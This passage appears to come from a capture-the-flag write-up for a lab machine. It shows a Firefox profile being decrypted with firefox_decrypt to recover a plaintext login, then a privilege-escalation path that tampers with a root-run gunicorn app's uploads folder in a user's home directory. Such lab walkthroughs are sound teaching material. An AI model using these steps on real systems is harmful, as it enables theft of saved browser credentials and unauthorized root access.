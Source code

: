 ```bash
firefox.tar.gz   100%   14MB 671.3KB/s   00:22 
```

> **Decryption Firefox Credentials**
> 

`tar -xvzf firefox.tar.gz`

```bash
firefox/
firefox/8k3bf3zp.charles/
firefox/8k3bf3zp.charles/storage-sync-v2.sqlite
firefox/8k3bf3zp.charles/safebrowsing/
firefox/8k3bf3zp.charles/safebrowsing/google4/
firefox/8k3bf3zp.charles/extensions.json
firefox/8k3bf3zp.charles/extension-store/
firefox/8k3bf3zp.charles/sessionstore-backups/

[REDACTED] - MORE
```

`sudo chmod -R 777 firefox`

`python3 firefox_decrypt/firefox_decrypt.py firefox/8k3bf3zp.charles`

```bash
Username: 'Charles'
Password: 'thekingofengland'
```

**For script source:**

[https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)

> **Another Method for Privilege Escalation**
> 

```bash
beth@london:~$ ps -aux | grep 'gunicorn'
root       439  0.0  1.1  75640 22212 ?        Ss   Oct01   0:01 /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
root       458  1.3  1.7 401196 35592 ?        Sl   Oct01   1:55 /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
root       460  1.3  1.7 401196 35680 ?        Sl   Oct01   1:55 /usr/bin/python3 /home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app
beth     15971  0.0  0.0  14436  1084 pts/1    S+   00:23   0:00 grep --color=auto gunicorn

beth@london:~$ cat app.py | grep 'UPLOAD_FOLDER'
UPLOAD_FOLDER = 'uploads'
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
    filenames = os.listdir(app.config['UPLOAD_FOLDER'])
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    return send_from_directory(app.config['UPLOAD_FOLDER'], filename)

beth@london:~$ ls -lsa uploads
total 2232
   4 drwxrwxr-x  2 beth beth    4096 Apr 17 04:37 .
   4 drwxr-xr-x 11 beth beth    4096 Oct  1 23:57 ..
  68 -rw-r--r--  1 root root   69381 Apr 17 04:37 04.jpg
  56 -rw-r--r--  1 root root   54380 Apr 17 04:37 caption.jpg
  84 -rw-r--r--  1 root root   83547 Apr 17 04:36 e3.jpg
  16 -rw-r--r--  1 root root   14972 Apr 17 04:37 images.jpeg
 388 -rw-r--r--  1 root root  397225 Apr 17 04:36 Thames.jpg
1520 -rw-r--r--  1 root root 1554649 Apr 17 04:37 Untitled.png
  92 -rw-r--r--  1 root root   94062 Apr 17 04:37 www.usnews.jpeg

beth@london:~$ mv uploads/ uploads.bak
```